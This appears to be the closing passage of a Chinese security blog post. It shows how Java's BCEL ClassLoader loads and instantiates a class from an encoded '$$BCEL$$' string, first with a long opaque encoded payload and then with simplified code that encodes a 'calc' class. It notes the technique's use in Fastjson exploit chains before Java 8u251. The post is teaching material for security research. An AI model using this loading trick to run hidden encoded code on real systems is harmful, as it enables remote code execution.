             new ClassLoader().loadClass("$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbN$c2P$Q$3d$X$K$z$b5$I$82$f8$7e$3f$c1$85l$dci$dc$YM$8c$f5$R$n$ba$be$5co$f0$o$b6$a4$5c$M$7f$e4$da$8d$g$X$7e$80$le$9c$5e$VM$b4Ig$3a$e7$cc93$93$be$bd$bf$bc$C$d8$c2$9a$L$H$e3$$$s0$e9$60$w$ce$d36f$5c$a40kc$ce$c6$3cCzG$FJ$ef2$q$cb$95$L$Gk$_$bc$92$M9_$F$f2$a4w$db$90Q$9d7$da$84$U$fcP$f0$f6$F$8fT$5c$7f$81$96$beV$5d$92$fa$7c$9b$c1$d9$R$ed$_$_F$5c$c9o$f1$3b$5eUa$f5$f0t$bf$_dG$ab0$a0$b6lMsqs$cc$3b$c6$83$d6apka$_$S$f2$40$c5$9ei$be$Z$L$3dd$e0$daX$f0$b0$88$r2$a7$e1bS$f6$a5$87e$ac0$U$ff1$f7$b0$K$97$86s$86$bc$a1$db$3chVO$h$z$v4$c3$c8$Pt$de$L$b4$ba$a5YnS$eaAQ$wW$fc$3f$3d$b4$b0ES$F$c3z$f9$X$5b$d3$91$K$9a$db$bf$FgQ$ud$b7K$82$5c$87Hm$ce$acG$5cH$ba$c0$a6$ff$Q$3f$J$b0$f8$$$8aCTU$v3$ca$a9$8d$t$b0$HC$7b$U$d3$GL$oK$d1$fbl$c00r$94$j$e4$Hbn$cc$80$c23$S$85$e4$p$ac$cb$7b8G$h$8fH$3f$Y$3cC$da$U$b9$c4$8ec$f4$V$fbf$Mj$93$b3$83$Rr$fa$9e$90$85Eu$81$aa$o$bd6$S$be$8dQ$8b$88$92Yj$ec$D$e5$e5$f0$NQ$C$A$A").newInstance();
        }
    }
    

![](https://img2022.cnblogs.com/blog/3010963/202210/3010963-20221031162242209-1495882366.png)

代码进行简化后如下

    package org.gk0d;
    
    import com.sun.org.apache.bcel.internal.Repository;
    import com.sun.org.apache.bcel.internal.classfile.JavaClass;
    import com.sun.org.apache.bcel.internal.classfile.Utility;
    import com.sun.org.apache.bcel.internal.util.ClassLoader;
    
    public class Test {
        public static void main(String[] args) throws Exception {
    
    
            JavaClass javaClass = Repository.lookupClass(calc.class);
            String code = Utility.encode(javaClass.getBytes(), true);
            System.out.println(code);
    
    
            new ClassLoader().loadClass("$$BCEL$$" + code).newInstance();
    
        }
    }
    

![](https://img2022.cnblogs.com/blog/3010963/202210/3010963-20221031162543555-1083288727.png)

总结
==

BCEL ClassLoader类和前面的  
TemplatesImpl 都出自于同一个第三方库，Apache Xalan，在Fastjson等漏洞的利用链构造时都有被用到  
还有一个重要的利用条件就是在Java 8u251的更新中，这个ClassLoader被移除了，所以之后只能在这个之前的版本才可以利用。